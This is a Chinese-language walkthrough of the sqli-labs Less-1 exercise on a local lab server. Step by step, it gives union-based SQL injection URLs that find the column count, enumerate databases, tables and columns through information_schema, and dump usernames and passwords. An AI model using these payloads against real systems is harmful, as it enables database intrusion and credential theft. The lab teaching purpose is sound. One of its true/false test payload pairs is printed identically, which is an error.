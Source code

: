 
## 练习开始

首先打开http://127.0.0.1/Less-1/?id=1 
![](luffy1.png)

第一题是基于显错方式的字符串注入，位置在where之后且后跟limit


核心的语句在于
```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```
这是最常见的一种方式注入点在where后面，还有的会在limit后面，这次只写where后面的

对于后面的 ```' LIMIT 0,1```主要有两种处理方式，一种是注释掉，还有一种是利用单引号闭合

测试用的payload
```
闭合法
' and 's' like 's 返回正确
' and 's' like 'f 返回错误

注释法
' and 1 like 1 --+ 返回正确
' and 1 like 1 --+ 返回错误

```

**在mysql中like和=等价**


## 0x01 注释法
### 0x001通过折中法获取列数

列数存在(即第一列)
```
http://127.0.0.1/Less-1/?id=1' order by 1 --+
```

![](luffy2.png)

列数不存在(第100列)
```
http://127.0.0.1/Less-1/?id=1' order by 100 --+
```
![](luffy3.png)

语句带入到mysql是如下图的形式
![](luffy4.png)

最后得到正确的列数是
```
http://127.0.0.1/Less-1/?id=1' order by 3 --+
```

### 0x002 获取数据库

```
http://127.0.0.1/Less-1/?id=1' union select 1,2,3 --+
```
通过报错显示内容

```
http://127.0.0.1/Less-1/?id=-1' union select 1,2,3 --+
```
![](luffy5.jpg)
这边将id的值改成了-1，是因为，mysql没有id为-1的内容，这样的话数据库就会报错，从而弹回我们想要的内容
可以看到只有第2列和第3列的结果显示在页面上，只有 2，3可以用

爆当前的数据库(利用mysql内置函数database())

```
http://127.0.0.1/Less-1/?id=-1' union select 1,database(),3 --+
```
![](luffy6.png)
语句在mysql的执行是
![](luffy8.png)


其他的内置函数还有user(),version()等
获取数据库数量
```
http://127.0.0.1/Less-1/?id=-1' union select 1,count(*),3  from information_schema.schemata --+
```
![](luffy7.png)

一次性全部爆出
```
http://127.0.0.1/Less-1/?id=-1' union select 1,2,(concat_ws(char(32,58,32),user(),database(),version())) --+
```
![](luffy18.png)

**
concat_ws（）：从数据库里取N个字段，然后组合到一起用符号分割显示，第一个参数剩余参数间的分隔符
char（）：将十进制ASCII码转化成字符
32表示 [空格]，58表示 [：]
**

获取第一个数据库名字
```
http://127.0.0.1/Less-1/?id=-1' union select 1,SCHEMA_NAME,3  from information_schema.schemata limit 0,1 --+
```
![](luffy6.png)

通过修改limit 0,1 limit 1,1 ...可以逐步遍历所有的数据库

### 0x003 通过联合查询获取security的表名


获取表的数量
```
http://127.0.0.1/Less-1/?id=-1' union select 1,count(*),3  from information_schema.tables where table_schema="security" --+
```

![](luffy9.png)

获取第一个表名
```
http://127.0.0.1/Less-1/?id=-1' union select 1,table_name,3  from information_schema.tables where table_schema="security"  limit 0,1--+
```
![](luffy10.png)

找到user表
```
http://127.0.0.1/Less-1/?id=-1' union select 1,table_name,3  from information_schema.tables where table_schema="security"  limit 3,1--+
```

![](luffy11.png)

### 0x004 获取列相关

猜列的数量
```
http://127.0.0.1/Less-1/?id=-1' union select 1,count(*),3  from information_schema.columns  where table_schema="security"  and table_name="users" --+
```
![](luffy12.png)

获取列名字
```
http://127.0.0.1/Less-1/?id=-1' union select 1,column_name,3  from information_schema.columns  where table_schema="security"  and table_name="users" limit 0,1 --+
```

![](luffy13.png)

获取username
```
http://127.0.0.1/Less-1/?id=-1' union select 1,column_name,3  from information_schema.columns  where table_schema="security"  and table_name="users" limit 1,1 --+
```
获取password
```
http://127.0.0.1/Less-1/?id=-1' union select 1,column_name,3  from information_schema.columns  where table_schema="security"  and table_name="users" limit 2,1 --+
```

### 获取列的内容
```
http://127.0.0.1/Less-1/?id=-1' union select 1,concat(username,":",password),3 from users --+
```
![](luffy14.png)

**
除了--+注释之外，还可以用%23,%23是#的url编码，在数据库中同样表示注视的含义。为什么使用的%23而不是#呢，因为由于编码的问题，在浏览器中直接提交#会变成空，所以我们使用url编码后的#，即%23，当传输到后端时，后端语言会对它自动解码成#，才能够成功带入数据库查询
**


## 0x01 闭合法

通过闭合法没办法构造order by语句，没法直接判断列数
```
http://127.0.0.1/Less-1/?id=1' union select 1,2,3 '
```
或者是
```
http://127.0.0.1/Less-1/?id=1' union select 1,2,3 and 'x'='x
```
他们在语句中的执行语句是
![](luffy16.png)

展示当前数据库
```
http://127.0.0.1/Less-1/?id=-1' union select 1,concat_ws(" : ", user(), database()),3   and 'x'='x
```
![](luffy19.png)


### 0x001 爆库

```
http://127.0.0.1/Less-1/?id=-1' union select 1,GROUP_CONCAT(SCHEMA_NAME),3   from information_schema.schemata where CATALOG_NAME='def
```

![](luffy20.png)

### 0x002 爆表

`
http://127.0.0.1/Less-1/?id=-1' union select 1,GROUP_CONCAT(table_NAME),3   from information_schema.tables where TABLE_SCHEMA='security
`
![](luffy21.png)

### 0x003 爆列

`
http://127.0.0.1/Less-1/?id=-1' union select 1,group_CONCAT(column_name),3   from information_schema.columns where TABLE_NAME='users' and TABLE_SCHEMA='security
`
![](luffy22.png)

### 0x004 爆内容

`
http://127.0.0.1/Less-1/?id=-1' union select 1,CONCAT_ws(" : ", username,password),3   from users where id = '1
`

![](luffy23.png)




